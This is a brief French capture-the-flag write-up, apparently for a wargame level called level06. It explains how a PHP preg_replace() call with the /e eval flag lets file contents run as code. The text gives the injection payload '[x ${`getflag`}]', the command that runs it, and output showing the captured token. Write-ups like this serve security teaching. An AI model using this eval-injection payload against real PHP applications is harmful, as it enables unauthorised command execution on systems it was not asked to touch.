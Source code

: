 On a un binaire et son code source.
Dans le code on repere la fonction preg_replace() contenant une regex avec le flag e. Tout ce qui matchera la regex sera evalue par le programme.
Le programme prend en argument un fichier dont il lira le contenu, donc si on place du code executable dans un fichier et qu'on le passe en argument de level06, ce contenu sera execute.

On ecrit :
	[x ${`getflag`}]
dans un fichier /tmp/get
Avec la commande:
	./level06 /tmp/get
on obtient :
	PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
	 in /home/user/level06/level06.php(4) : regexp code on line 1

